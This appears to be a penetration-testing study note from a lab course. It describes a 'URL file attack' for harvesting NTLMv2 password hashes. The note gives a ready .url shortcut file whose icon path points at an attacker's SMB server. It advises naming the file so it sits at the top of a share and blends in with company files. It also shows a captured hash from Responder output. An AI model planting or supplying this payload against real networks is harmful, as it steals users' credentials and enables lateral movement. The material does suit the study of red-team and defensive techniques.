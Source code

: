 >[!question] What is URL File Attacks ?__?
URL File Attack captures the User's hashes whoever access the ``"File Share"``

We need to switch on the SMB and HTTP in order to run this attack successfully from the responder.conf file as we had turned if off for the attack at the time of SMB relay attack.
 
Compromised User has any kind of sharing access we can utilize that access to capture more hashes via responder.


Name the File : "@test.url"
@ put the file at the top of the file list
and name it according to company filing system

```
[InternetShortcut]
URL=blah
WorkingDirectory=blah
IconFile=\\<Attacker IP address>\%USERNAME%.icon
IconIndex=1
```


Responder Capture the HASH
[SMB] NTLMv2-SSP Client   : ::ffff:192.168.17.130
[SMB] NTLMv2-SSP Username : MARVEL\fcastle
[SMB] NTLMv2-SSP Hash     : fcastle::MARVEL:6d4ace581007a469:A89874C2A42781E85CE956008E6F2B7A:010100000000000080E26B141CC1D90164A
73A0EE742CB900000000002000800420035004B00420001001E00570049004E002D004900570054004C0030005A004C004D004300530052000400340057004
9004E002D004900570054004C0030005A004C004D004300530052002E00420035004B0042002E004C004F00430041004C0003001400420035004B0042002E0
04C004F00430041004C0005001400420035004B0042002E004C004F00430041004C000700080080E26B141CC1D9010600040002000000080030003000000000
000000010000000020000049A389A904E1BCD362DB3F3FAC3E0DA2E055E8D730CC35F2933CF1E27F8CAF8C0A00100000000000000000000000000000
